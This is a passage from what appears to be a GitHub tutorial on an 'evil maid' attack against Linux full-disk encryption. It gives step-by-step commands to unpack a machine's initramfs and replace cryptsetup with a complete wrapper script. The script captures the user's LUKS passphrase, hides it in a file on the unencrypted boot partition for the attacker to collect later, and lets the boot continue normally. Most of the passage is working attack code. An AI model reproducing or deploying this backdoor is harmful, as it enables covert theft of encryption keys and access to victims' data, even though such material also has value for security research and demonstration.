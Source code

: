 Modify kernel variable to match the targeted kernel version. Usually newest version under `/mnt/boot`.

```
kernel=5.15.0-47-generic
mkdir -p /tmp/init/initramfs/
cd /tmp/init/
unmkinitramfs /mnt/boot/initrd.img-"$kernel" initramfs/
```

Now unpacked version of the original initramfs can found in `/tmp/init/initramfs/`.

### 3. Create a wrapper scipt for the cryptsetup

One could do something sophisticated like replace `cryptsetup` with a new compiled version that includes some malicious code for stealing the encryption key. I'm doing the lazy version and will replace the cryptsetup with a wrapper script.

The wrapper script captures the encryption key and then it passes the execution to the real cryptsetup with the key and requested parameters. User should still get the normal experience with the boot process. The wrapper script will store the encryption key on the unencrypted boot partition before passing execution to the real cryptsetup.

Attacker can then wait for an user to boot to the machine and later come back to steal the key when an user has booted the machine at least once.

The below commands will move the original cryptsetup to cryptsetup_real and initialize empty file for the wrapper script.

```
cd /tmp/init/initramfs/main/usr/sbin
mv cryptsetup cryptsetup_real
touch cryptsetup
chmod 755 cryptsetup
chmod 755 cryptsetup_real
```

Below is the content for the `/tmp/init/initramfs/main/usr/sbin/cryptsetup`. Edit this to the file.

```sh
#!/bin/sh

# /dev/stdin not available initramfs but piping this way should work
/bin/cat > pass
password=$(cat pass)
echo -n "$password"

########## Debugging ###############################
# If decryption fails and system boots to initramfs,
# you can check parameters and input,
# that were sent to the cryptsetup
/bin/echo "$password" > /stdin.txt
/bin/echo "$@" > /cmdout.txt
####################################################

# These commands mount the actual /boot partition,
# and store the encryption key on that
/bin/mkdir -p /mntboot
/bin/mount /dev/vda3 /mntboot
/bin/echo $password > /mntboot/.cryptpass_mitm
/bin/umount /mntboot

/bin/echo -n "$password" | /usr/sbin/cryptsetup_real "$@"
```
